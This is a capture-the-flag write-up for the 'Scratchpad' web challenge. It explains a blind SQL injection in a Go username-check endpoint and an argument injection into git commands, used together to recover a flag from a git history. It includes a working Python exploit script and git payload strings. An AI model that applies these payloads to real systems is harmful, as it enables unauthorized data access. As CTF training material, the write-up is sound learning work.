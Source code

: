 # Scratchpad

## Description

My new note-taking app is great for jotting down quick thoughts (or flags)!

## Files

* [scratchpad.zip](scratchpad.zip)

## Writeup

This challenge gives us a zip file, so the best thing we can do to start is to extract it!

When we do, we see the source code for a website with a frontend in Vite and a backend using Go.

Looking at `entrypoint.sh`,. we can also see where our flag will be:
```bash
#!/bin/sh
set -e
  
DB_PATH="/app/ctf.db"
USERS_DIR="/app/data"
FLAG=$(cat /flag.txt)
FOLDER=$(uuidgen)
FOLDER_PATH="$USERS_DIR/$FOLDER"
  
echo $FOLDER
  
mkdir -p "$FOLDER_PATH"
  
cd "$FOLDER_PATH"
git init
echo "$FLAG" > scratchpad.txt
git add scratchpad.txt
git commit -m "Add flag"
echo "" > scratchpad.txt
git add scratchpad.txt
git commit -m "Blank file"
cd -
  
sqlite3 "$DB_PATH" <<EOF
CREATE TABLE IF NOT EXISTS users (username TEXT PRIMARY KEY, password TEXT, folder TEXT, filename TEXT);
INSERT INTO users (username, password, folder, filename) VALUES ('admin', 'temppassword', '$FOLDER','scratchpad.txt');
EOF
  
rm /flag.txt
  
/usr/bin/supervisord -c /etc/supervisord.conf
```

Interestingly, it seems the file is hidden in a random folder using `git` version control. The file also does not currently display the flag since it was rewritten as a blank file, but the version history of the file would still display the flag.

Seeing a SQL database containing our folder location, an interesting part of the Go source code starts to stand out.
```go
func usernameCheckHandler(w http.ResponseWriter, r *http.Request) {
    username := strings.ToLower(r.URL.Query().Get("username"))
    row := db.QueryRow(fmt.Sprintf("SELECT 1 FROM users WHERE username = '%s'", username))
    var dummy int
    err := row.Scan(&dummy)
    json.NewEncoder(w).Encode(map[string]bool{"good": err == sql.ErrNoRows})
}
```

This function is linked to the endpoint `/api/username_check` and takes a query string parameter, `username`. However, it directly passes the input into a SQL query with no sanitation, which is very bad. This is a clear example of an SQL injection vulnerability. And ultimately, since the function tells us whether or not there is a row in the output (saying "good" is "true" if there are no rows and "false" if there is a row), we can use standard blind SQL injection.

Now, we just need to figure out what to do with that. The endpoint `/api/revision/` maps to an interesting function that once again fails to properly sanitize user input.
```go
func handleRevision(w http.ResponseWriter, r *http.Request) {
    var req RevisionRequest
  
    claims, err := getClaims(r)
    if err != nil {
        http.Error(w, "Unauthorized", 401)
        return
    }
    folder := claims["folder"].(string)
  
    if err := json.NewDecoder(r.Body).Decode(&req); err != nil {
        http.Error(w, "bad request", 400)
        return
    }
  
    args := strings.Split(req.Action, " ")
    args = append(args, fmt.Sprintf("%s:scratchpad.txt", req.Hash))
    cmd := exec.Command("git", args...)
    cmd.Dir = filepath.Join("data", folder)
  
    out, err := cmd.CombinedOutput()
    if err != nil {
        http.Error(w, string(out), 500)
        return
    }
    w.Write(out)
}
```

Unfortunately, we can't execute arbitrary Bash code here, but we can control a lot with the `git` command. This is the same command we can use to view the version history of the file the flag is in. The only challenges, though, are that the revision hash is included in the format string `%s:scratchpad.txt` at the end of the request, which we don't really want, and this is all done without our user's folder, not the admin folder we want to read the flag from. However, this full command should do the trick:

```bash
git -C ../thefolder log -- scratchpad.txt -- hash:scratchpad.txt
```

The `-C` option enables us to run `git` from another directory other than the current working directory, which we can use to get into the admin folder. The `--` argument tells `git` to process the files, `scratchpad.txt` and `hash:scratchpad.txt` as literal files rather than specific hashes for revisions. The latter of these is simply ignored since it is not a real file.

So our payload `action` is `-C ../thefolder log -- scratchpad.txt --` and our `hash` can be anything. We can use the same Python script we write to perform the SQL injection to give us the payload we'll need.

```python
# Necessary to perform the HTTP requests required to exploit
from requests import get, post
# Necessary to URL encode the SQL injection payload
from urllib.parse import quote_plus as urlencode
# Helps craft the payload to exploit git
from json import dumps
# Stores the necessary character set
import string

# Our host to exploit here
host = "https://jfoubfoe.web.ctf.uscybergames.com/"

# Generates a SQL injection payload for the host
def gen_payload(payload):
    return host + "api/username_check?username=" + urlencode("admin' and " + payload + " and '1'='1")

# Generates a specific payload to compare a character of the folder with a guess character
def gen_substr(idx, char):
    return gen_payload("substr(folder, " + str(idx) + ", 1) = '" + char + "'")

# Performs a GET request with the substring payload
def run_substr(idx, char):
    return get(gen_substr(idx, char)).json()

# Our charset (since it is a UUID)
charset = string.hexdigits + "-"

# Checks an individual index of the folder 
def check_idx(idx):
    # Loop through our charset for each possible guess
    for char in charset:
        # Perform the GET request
        res = run_substr(idx, char)
        # If "good" is "false", it means there is a row and the character matches
        if not res["good"]:
            return char
    # Return an empty string if all characters exhausted (end of folder name)
    return ""

# Stores the folder
folder = ""
# Initialize our guess character
char = "a"
# Start at index 1 (first character in SQL)
i = 1
# Loop while we have a next character
while len(char) > 0:
    # Get the character
    char = check_idx(i)
    # Go to next index after this
    i += 1
    # Add character to known folder name
    folder += char
    # Print progress
    print(folder)

# Action necessary to view the log
action = "-C ../" + folder + " log -- scratchpad.txt --"
# Just a random hash value to complete the request payload
hash_val = "test"
# Create the payload as JSON
body_payload = dumps({"action":action,"hash":hash_val})
# String with fetch payload
full_fetch = "fetch(\"" + host + "api/revision\", {method:\"POST\",body:'"+body_payload+"'});"
# Print the payload so we can run it after logging in
print(full_fetch)

```


Now we can run this!
![SQLi](../../images/Pasted%20image%2020250616205151.png)

After logging in, it ultimately becomes easier to just copy the request from reviewing a revision of our own file so we can include the necessary credentials, but we still use the same payload.

![Fetch](../../images/Pasted%20image%2020250616205309.png)

![Revision data](../../images/Pasted%20image%2020250616205330.png)

Now that we have the revision, we can use a similar `git show` payload to show the flag!

![Fetch 2](../../images/Pasted%20image%2020250616205415.png)

![Flag](../../images/Pasted%20image%2020250616205437.png)

And our flag is `SVUSCG{331be1ddccf6667a5271d4727eb36098}`!
